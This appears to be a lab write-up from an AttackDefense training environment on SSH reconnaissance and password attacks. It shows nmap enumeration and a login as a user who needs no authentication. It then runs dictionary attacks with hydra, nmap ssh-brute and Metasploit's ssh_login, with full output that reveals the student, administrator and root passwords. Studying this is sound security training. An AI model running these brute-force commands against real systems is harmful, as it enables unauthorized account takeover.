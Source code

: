 # SSH

> SSH, or Secure Shell Protocol, is a network protocol that allows secure communication between two devices. It is commonly used to remotely access and control servers, allowing users to securely transfer files, execute commands, and manage remote systems. SSH uses encryption to protect sensitive information and prevent unauthorized access, making it a popular choice for secure remote access in the IT industry.

```sh
root@attackdefense:~# nmap 192.41.246.3 -p22 -sV
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 12:57 UTC
Nmap scan report for target-1 (192.41.246.3)
Host is up (0.000060s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:29:F6:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
```

We have OpenSSH running on port 22 for SSH.

We can use netcat to grab the banner:

```sh
root@attackdefense:~# nc 192.41.246.3 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6
```

or we can simply use this command to connect to SSH:

```sh
root@attackdefense:~# ssh root@192.41.246.3
```

To enumerate all the algorithms we can use Nmap:

```sh
root@attackdefense:~# nmap 192.41.246.3 -p22 --script=ssh2-enum-algos
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 13:15 UTC
Nmap scan report for target-1 (192.41.246.3)
Host is up (0.000058s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh2-enum-algos: 
|   kex_algorithms: (6)
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       ssh-rsa
|       rsa-sha2-512
|       rsa-sha2-256
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
MAC Address: 02:42:C0:29:F6:03 (Unknown)
```

these are the algorithms that can be used to get that key.

Now to get the RSA key we can use the following command:

```sh
root@attackdefense:~# nmap 192.41.246.3 -p22 --script=ssh-hostkey --script-args ssh_hostkey=full
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 13:20 UTC
Nmap scan report for target-1 (192.41.246.3)
Host is up (0.000064s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1fkJK7F8yxf3vewEcLYHljBnKTAiRqzFxkFo6lqyew73ATL2Abyh6at/oOmBSlPI90rtAMA6jQGJ+0HlHgf7mkjz5+CBo9j2VPu1bejYtcxpqpHcL5Bp12wgey1zup74fgd+yOzILjtgbnDOw1+HSkXqN79d+4BnK0QF6T9YnkHvBhZyjzIDmjonDy92yVBAIoB6Rdp0w7nzFz3aN9gzB5MW/nSmgc4qp7R6xtzGaqZKp1H3W3McZO3RELjGzvHOdRkAKL7n2kyVAraSUrR0Oo5m5e/sXrITYi9y0X6p2PTUfYiYvgkv/3xUF+5YDDA33AJvv8BblnRcRRZ74BxaD
|   ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB0cJ/kSOXBWVIBA2QH4UB6r7nFL5l7FwHubbSZ9dIs2JSmn/oIgvvQvxmI5YJxkdxRkQlF01KLDmVgESYXyDT4=
|_  ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKuZlCFfTgeaMC79zla20ZM2q64mjqWhKPw/2UzyQ2W/
MAC Address: 02:42:C0:29:F6:03 (Unknown)
```

We got the full RSA host key.

To check for weak passwords we can utilize the following script:

```sh
root@attackdefense:~# nmap 192.41.246.3 -p22 --script=ssh-auth-methods --script-args="ssh.user=student"
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 13:23 UTC
Nmap scan report for target-1 (192.41.246.3)
Host is up (0.000048s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|_  Supported authentication methods: none_auth
MAC Address: 02:42:C0:29:F6:03 (Unknown)
```

Here we can see that there is no supported authentication for student which is dangerous.

Let's try it for admin:

```sh
root@attackdefense:~# nmap 192.41.246.3 -p22 --script=ssh-auth-methods --script-args="ssh.user=admin"
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 13:26 UTC
Nmap scan report for target-1 (192.41.246.3)
Host is up (0.000051s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
MAC Address: 02:42:C0:29:F6:03 (Unknown)
```

So here we can see it needs authentication.

Well, we saw that `student` needs no authentication. So let's try to connect with `student`:&#x20;

```sh
root@attackdefense:~# ssh student@192.41.246.3
Welcome to attack defense ssh recon lab!!
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 5.4.0-153-generic x86_64)
.
.
student@victim-1:~$ whoami
student
```

We are in.

## SSH Dictionary Attack

we can use hydra tool for this type of attack like this:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# hydra -l student -P /usr/share/wordlists/rockyou.txt 192.143.106.3 22 
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 13:43:49
[ERROR] Unknown service: 22
root@attackdefense:~# hydra -l student -P /usr/share/wordlists/rockyou.txt 192.143.106.3 ssh
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 13:43:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.143.106.3:22/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344223 to do in 1350:41h, 16 active
<strong>[22][ssh] host: 192.143.106.3   login: student   password: friend
</strong>1 of 1 target successfully completed, 1 valid password found
</code></pre>

Here we found the password for the student. Now we can use that to connect to SSH:

```sh
root@attackdefense:~# ssh student@192.143.106.3   
Ubuntu 16.04.5 LTS
student@192.143.106.3's password: 
.
.
student@victim-1:~$ whoami
student
```

Logged in successfully.

Let's try to get login details for the administrator using Nmap:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# echo "administrator" > user    
root@attackdefense:~# nmap 192.143.106.3 -p22 --script=ssh-brute --script-args userdb=/root/user 
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
<strong>|     administrator:sunshine - Valid credentials
</strong>|_  Statistics: Performed 28 guesses in 9 seconds, average tps: 3.1
MAC Address: 02:42:C0:8F:6A:03 (Unknown)
</code></pre>

Here we also got the password for the administrator. Let's connect to SSH now:

What about the root password? We can use one other way which is metasploit.

<pre class="language-sh"><code class="lang-sh">msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.143.106.3
RHOSTS => 192.143.106.3
msf5 auxiliary(scanner/ssh/ssh_login) > set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
userpass_file => /usr/share/wordlists/metasploit/root_userpass.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set stop_on_success true
stop_on_success => true
msf5 auxiliary(scanner/ssh/ssh_login) > run

<strong>[+] 192.143.106.3:22 - Success: 'root:attack' 'uid=0(root) gid=0(root) groups=0(root) Linux victim-1 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux '
</strong>[*] Command shell session 1 opened (192.143.106.2:35495 -> 192.143.106.3:22) at 2023-12-28 14:33:25 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
</code></pre>

Here we also got the password for the user `root`.
